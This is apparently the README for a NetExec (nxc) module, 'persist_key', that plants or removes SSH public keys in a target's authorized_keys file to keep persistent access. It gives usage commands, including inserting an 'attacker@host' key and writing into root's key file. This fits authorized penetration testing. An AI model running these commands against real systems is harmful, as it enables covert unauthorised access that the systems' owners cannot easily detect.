 # `persist_key` Module

The `persist_key` module allows you to **inject or remove SSH public keys** into a target’s  
`~/.ssh/authorized_keys` file for persistence on Linux systems.

---

## 📖 Description

- **Module name:** `persist_key`  
- **Purpose:** Maintain persistent access by planting or removing SSH keys.  
- **Protocols:** `ssh`  
- **OpSec safe:** ⚠️ Yes (but persistence is detectable).  
- **Multiple hosts:** ❌ No — one SSH session at a time.  

---

## ⚙️ Options

| Option     | Default  | Description                                                                 |
|------------|----------|-----------------------------------------------------------------------------|
| `PUBKEY`   | *(auto)* | Path to a public key file, or the raw public key string. Defaults to scanning `~/.ssh/id_*.pub`. |
| `USER`     | *(auto)* | Target username. Defaults to the logged-in SSH user.                        |
| `BACKUP`   | `true`   | Whether to back up `authorized_keys` before modifying. (`true/false`)       |
| `REMOVE`   | `false`  | Remove mode: `true` (remove key), or `backup` (remove key + delete backup). |
| `KEX`      | *(none)* | Comma-separated list of KEX algorithms (legacy compatibility).              |
| `HOSTKEY`  | *(none)* | Comma-separated list of hostkey algorithms (legacy compatibility).          |

---

## ▶️ Usage

### Add your default SSH key
```bash
nxc ssh <target> -u <user> -p <pass> -M persist_key
nxc ssh <target> -u <user> -p <pass> -M persist_key -o PUBKEY=/path/to/key.pub```

To use copy and pasted public key
```bash
nxc ssh <target> -u <user> -p <pass> -M persist_key -o PUBKEY="ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAI... attacker@host"```

To drop key into another users folder
```bash
nxc ssh <target> -u <user> -p <pass> -M persist_key -o PUBKEY=/tmp/key.pub,USER=root```

To not backup keys on target system
```bash
nxc ssh <target> -u <user> -p <pass> -M persist_key -o BACKUP=false
```

Remove a previously added key
```bash
nxc ssh <target> -u <user> -p <pass> -M persist_key -o REMOVE=true,PUBKEY=/tmp/key.pub
```

Remove key and delete backup (bring back to original environment will not remove other authorized keys already on target system
```bash
nxc ssh <target> -u <user> -p <pass> -M persist_key -o REMOVE=backup,PUBKEY=/tmp/key.pub
```

Use Legacy
```bash
nxc ssh <target> -u <user> -p <pass> -M persist_key -o KEX="diffie-hellman-group1-sha1",HOSTKEY="ssh-rsa"
```

Autoremove added keys, and bring target system to original state
```bash
nxc ssh <target> -u <user> -p <pass> -M persist_key -o REMOVE=backup
```


